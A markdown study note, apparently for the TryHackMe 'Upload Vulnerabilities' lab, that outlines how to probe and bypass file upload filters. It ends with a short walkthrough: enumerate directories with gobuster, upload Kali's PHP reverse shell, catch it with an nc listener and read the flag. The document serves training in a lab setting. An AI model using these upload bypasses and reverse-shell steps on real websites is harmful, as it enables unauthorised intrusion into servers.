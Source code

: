 # Upload Vulnerabilities

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## 🌐 Resources 🔗

> - [TryHackMe | Upload Vulnerabilities](https://tryhackme.com/r/room/uploadvulns)
>   - [File Upload Vulnerabilities HINTS](https://muirlandoracle.co.uk/2020/06/30/file-upload-vulnerabilities-hints/)
> - [File Upload | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
> - [PayloadsAllTheThings/Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)

---

## Attack Methodology

To tackle file upload challenges, begin by **examining** the website to identify its **technology** and **potential attack vectors** (e.g. upload pages), using tools like Wappalyzer or Burpsuite to gather information from headers and server responses (e.g. `server`, `x-powered-by`).

Locate an upload page and review its **client-side scripts** for filters.

Perform a **test upload** with an innocent file to understand **how** the website **processes** and **stores** uploads (upload dir, embedding, naming scheme), using tools like Gobuster to find uploaded file locations (`-x` switch in Gobuster).

Once the upload behavior is understood, attempt to **bypass client-side filters** with a malicious file and analyze any **server-side rejection** for clues.

Common server-side filters include extension whitelists/blacklists, magic number checks, MIME type validation, or file size restrictions, which can be identified through systematic testing, such as **altering file attributes** (e.g. invalid file extension, magic number, file size) or **intercepting upload requests** (e.g. change MIME type with BurpSuite). Use this information to refine your approach and improve the likelihood of a successful exploit.

## Remote Code Execution (RCE)

```bash
gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 > shell.uploadvulns.dirs

# /resources	(Status: 301) [Size: 334] [--> http://shell.uploadvulns.thm/resources/]
# /assets		(Status: 301) [Size: 331] [--> http://shell.uploadvulns.thm/assets/]

webshells # on Kali

cp /usr/share/webshells/php/php-reverse-shell.php .

# open the file and change the IP to THM VPN tunnel IP
# upload the file to http://shell.uploadvulns.thm/

nc -nvlp 1234

# Open
# http://shell.uploadvulns.thm/resources/php-reverse-shell.php

# Reverse shell
cat /var/www/flag.txt
```

---